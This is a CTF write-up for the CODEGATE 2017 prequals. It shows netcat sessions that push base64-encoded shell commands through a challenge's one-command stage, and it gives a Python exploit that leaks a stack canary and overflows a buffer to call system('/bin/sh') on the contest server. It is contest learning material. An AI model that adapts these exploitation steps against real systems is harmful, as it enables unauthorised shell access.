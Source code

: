 ```yaml
---
layout : post
title : CODEGATE 2017 prequals writeup
---
```


## BabyMISC

```

$ (echo TjBfbTRuX2M0bDFfYWc0aW5fWTNzdDNyZDR5OigA; echo aa; echo aaa; echo 'grep *' | base64 ; cat) | nc 110.10.212.138 19091
[*] Ok, Let's Start. Input the write string on each stage!:)
[*] -- STAGE 01 ----------
[+] KEY : H??x?H)?H?H???L??H)??1??D
[+] Input > 
[*] USER : N0_m4n_c4l1_ag4in_Y3st3rd4y:(
[+] -- NEXT STAGE! ----------
[*] -- STAGE 02 ----------
[+] Input 1 
[+] Input 2 
[+] -- NEXT STAGE! ----------
[*] -- STAGE 03 ----------
[+] Ok, It's easy task to you, isn't it? :)
[+] So I will give a chance to execute one command! :)
[*] Input > 
#                                                               echo -n Z3JlcCAqCg== | base64 -d | sh

[tsun@host-163-44-172-213 ~]$ (echo TjBfbTRuX2M0bDFfYWc0aW5fWTNzdDNyZDR5OigA; echo aa; echo aaa; echo 'head *' | base64 ; cat) | nc 110.10.212.138 19091
[*] Ok, Let's Start. Input the write string on each stage!:)
[*] -- STAGE 01 ----------
[+] KEY : H??x?H)?H?H???L??H)??1??D
[+] Input > 
[*] USER : N0_m4n_c4l1_ag4in_Y3st3rd4y:(
[+] -- NEXT STAGE! ----------
[*] -- STAGE 02 ----------
[+] Input 1 
[+] Input 2 
[+] -- NEXT STAGE! ----------
[*] -- STAGE 03 ----------
[+] Ok, It's easy task to you, isn't it? :)
[+] So I will give a chance to execute one command! :)
[*] Input > 
#                                                               echo -n aGVhZCAqCg== | base64 -d | sh
FLAG{Nav3r_L3t_y0ur_L3ft_h4nd_kn0w_wh4t_y0ur_r1ghT_h4nd5_H4ck1ng}

```


## Babypwn

{% highlight python %}

from No___Op import *

if len(sys.argv) > 1:
    target = '110.10.212.130:8889'

else:
    target = 'localhost:8181'

c = Pwning( target )

plt_system = 0x08048620 #+ 0x10

c.sendall('1')
time.sleep(1)
c.sendall('a' * 0x28)
c.read_until('a' * 28 + '\n')
canary = u32('\x00' + c.recv(3))

succ('canary: ' + hex(canary))

c.sendall('1')
time.sleep(1)
c.sendall('a' * (0x28 + 4 + 4 + 3))
c.read_until('a' * (0x28 + 4 + 4 + 3) + '\n')
addr_stack = u32(c.recv(4)) - 0x174 # buffer

succ('stack_addr: ' + hex(addr_stack))

payload  = ''
payload += 'a' * (40 - len(payload))
payload += p32(canary)
payload += 'a' * 12
payload += p32(plt_system)
payload += 'gomi'
payload += p32(addr_stack + len(payload) + 4)
payload += '/bin/sh <&4 >&4 2>&4;'
payload += 'c' * (0x64 - len(payload))

c.sendall('1')
time.sleep(0.5)
c.sendall(payload)
time.sleep(0.5)
c.sendall('3')

c.shell()

{% endhighlight %}

